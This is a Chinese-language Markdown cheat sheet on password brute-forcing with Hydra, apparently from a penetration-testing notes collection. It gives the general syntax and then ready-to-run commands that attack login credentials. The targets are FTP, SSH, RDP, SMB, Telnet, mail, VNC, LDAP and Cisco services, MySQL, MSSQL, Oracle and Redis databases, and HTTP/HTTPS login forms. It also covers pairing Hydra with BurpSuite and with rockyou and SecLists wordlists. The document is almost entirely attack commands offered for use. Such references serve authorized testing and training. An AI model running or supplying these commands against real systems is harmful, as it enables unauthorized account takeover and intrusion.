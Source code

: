 ```yaml
---
description: 密码爆破
---
```


# ✔️ Hydra

## 通用格式

1. **hydra \[-l 用户名/-L 用户名列表] \[-p 密码/-P 密码列表] -u -f \[目标IP地址/域名] \[-s 端口号] \[模块] "/login.php:username=^USER^\&password=^PASS^:F=\<form name='login' "**

* \-u：要尝试每一个密码的每一个用户名（遍历用户名列表&密码列表）
* \-f：找到第一个匹配项就立刻停止
* 模块：视具体情况而定
* "/login.php:username=^USER^\&password=^PASS^:F=\<form name='login' "：此处常用于针对Web应用的登录界面的具体规则指定，需要结合BurpSuite以及查看源码来指定

2. **hydra \[-l 用户名/-L 用户名列表] \[-p 密码/-P 密码列表] 协议://目标IP**

## &#x20;单独使用进行爆破

* 长针对于各种协议的服务进行爆破（FTP/SSH/RDP/TELNET/...）

### 针对各种协议的爆破

* **ftp**：用于破解 FTP（File Transfer Protocol）服务：

```bash
hydra -l username -P passwords.txt ftp://192.168.xxx.xx
```

* **ssh**：用于破解 SSH（Secure Shell）服务：

```bash
hydra -l username -P passwords.txt ssh://192.168.xxx.xx
```

* **telnet**：用于破解 Telnet 服务：

```bash
hydra -L usernames.txt -P passwords.txt telnet://192.168.xxx.xx
```

* **sip**：用于破解 SIP 服务器的认证：

```bash
hydra -L usernames.txt -P passwords.txt sip://192.168.xxx.xx
```

* **http-proxy**：用于破解 HTTP 代理服务器的认证：

```bash
hydra -L usernames.txt -P passwords.txt http-proxy://192.168.xxx.xx
```

* **smb**：用于破解 SMB（Server Message Block）服务，常用于 Windows 文件共享：

```bash
hydra -L usernames.txt -P passwords.txt smb://192.168.xxx.xx
```

* **snmp**：用于破解 SNMP（Simple Network Management Protocol）服务：

```bash
hydra -P passwords.txt snmp://192.168.xxx.xx
```

* **rdp**：用于破解 RDP（Remote Desktop Protocol）服务：

```bash
hydra -L usernames.txt -P passwords.txt rdp://192.168.xxx.xx
```

* **smtp**：用于破解 SMTP（Simple Mail Transfer Protocol）服务：

```bash
hydra -L usernames.txt -P passwords.txt smtp://192.168.xxx.xx
```

* **pop3**：用于破解 POP3（Post Office Protocol 3）邮件服务：

```bash
hydra -L usernames.txt -P passwords.txt pop3://192.168.xxx.xx
```

* **imap**：用于破解 IMAP（Internet Message Access Protocol）邮件服务：

```bash
hydra -L usernames.txt -P passwords.txt imap://192.168.xxx.xx
```

* **vnc**：用于破解 VNC（Virtual Network Computing）服务：

```bash
hydra -P passwords.txt vnc://192.168.xxx.xx
```

* **ldap**：用于破解 LDAP（Lightweight Directory Access Protocol）服务：

```bash
hydra -L usernames.txt -P passwords.txt ldap://192.168.xxx.xx
```

* &#x20;**Cisco**：用于破解 Cisco 设备的认证：

```bash
hydra -L usernames.txt -P passwords.txt cisco://192.168.xxx.xx
```

### 针对数据库的爆破

* **mssql**：用于破解 Microsoft SQL Server：

```bash
hydra -L usernames.txt -P passwords.txt mssql://192.168.xxx.xx
```

* **mysql**：用于破解 MySQL 数据库服务：

```bash
hydra -l root -P passwords.txt mysql://192.168.xxx.xx
```

* **redis**：不直接支持 Redis 认证，但可以通过 TCP 协议进行爆破：

```bash
hydra -L usernames.txt -P passwords.txt -s 6379 192.168.xxx.xx redis
```

* **oracle**：用于破解 Oracle 数据库：

```bash
hydra -L usernames.txt -P passwords.txt oracle://192.168.xxx.xx
```

* **mongodb**：可使用Medusa

## 组合使用进行爆破（Hydra + BurpSuite）

* 常针对Web应用程序登录界面的表单进行爆破 (HTTP / HTTPS)

#### **http-form-post**：

* 用于破解基于 HTTP POST 表单的认证。通常用于网站登录页面的暴力破解。

```bash
hydra -L usernames.txt -P passwords.txt 192.168.1.100 http-form-post "/login:username=^USER^&password=^PASS^:F=incorrect"
```

#### **https-form-post**：

* 与 http-form-post 类似，但针对 HTTPS 协议的表单认证。

```bash
hydra -L usernames.txt -P passwords.txt 192.168.1.100 https-form-post "/login:username=^USER^&password=^PASS^:F=incorrect"
```

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.xxx.xx http-form-post "/form/frontpage.php:user=admin&pass=^PAS
S^:INVALID LOGIN"  -vV -f
```

#### **http-form-get**：

* 用于破解基于 HTTP GET 表单的认证。

```bash
hydra -L usernames.txt -P passwords.txt 192.168.1.100 http-form-get "/login?username=^USER^&password=^PASS^:F=incorrect"
```

#### **https-form-get**：

* 与 http-form-get 类似，但针对 HTTPS 协议的表单认证。

```bash
hydra -L usernames.txt -P passwords.txt 192.168.1.100 https-form-get "/login?username=^USER^&password=^PASS^:F=incorrect"
```

#### **https-post-form**：

* 与 http-post-form 类似，但针对 HTTPS 协议：

```bash
hydra -L usernames.txt -P passwords.txt 192.168.1.100 https-form-post "/login:username=^USER^&password=^PASS^:F=incorrect"
```

#### **http-post-form**：

* 用于执行更复杂的 HTTP POST 表单暴力破解，常用于需要多步验证或自定义表单参数的情况。

```bash
# 实例
hydra -L /usr/share/SecLists/Usernames/top-usernames-shortlist.txt -P /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f 192.168.xxx.xx -s 8080 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

* \`/login.php:username=^USER^\&password=^PASS^\`：此处需要使用BurpSuite拦截表单请求，根据实际情况进行修改
* \`F=\<form name='login' \`：此处需要查看源码中表单实际的名称进行修改



